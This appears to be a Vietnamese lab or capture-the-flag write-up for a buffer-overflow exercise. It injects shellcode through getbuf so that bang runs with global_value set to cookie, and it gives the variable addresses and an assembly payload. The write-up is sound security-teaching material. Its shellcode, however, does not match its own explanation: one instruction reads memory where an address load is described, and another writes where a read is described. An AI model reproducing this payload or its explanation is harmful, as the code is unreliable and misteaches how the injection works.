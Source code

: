 # Level 2
## Task
Buffer overflow hàm `getbuf` để thực thi được hàm `bang` với `global_value == cookie`.  
```c
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

## Solution
Tương tự như các level trước, chúng ta vẫn sẽ overflow buffer có độ dài `40` bytes. Nhưng ở level này, chúng ta cần inject shellcode để có thể set giá trị của `global_value` bằng với giá trị `cookie`.  

Trước tiên, để gán được giá trị mới cho `global_value`, chúng ta cần biết được địa chỉ của `global_value`. Trong IDA Pro, chúng ta có thể xem được địa chỉ của biến `global_value`.  
```
.bss:8013F160 global_value    dd ?
```  

Và cả địa chỉ của biến `cookie`.  
```
.bss:8013F158 cookie          dd ?
```  

Vậy shellcode của chúng ta như sau:  
```asm
movl 0x8013F158, %eax
movl %eax, (%eax)
movl %eax, (0x8013F160)
call 0x80139B69
```  

Ở shellcode trên, chúng ta gán địa chỉ của biến `cookie` vào thanh ghi `%eax`. Sau đó, chúng ta đọc giá trị `cookie` và gán giá trị đó vào `%eax`. Kế đến, chúng ta gán giá trị `cookie` này vào `global_value`, và cuối cùng là gọi hàm `bang`.  
> `0x80139B69` chính là địa chỉ của hàm `bang`.


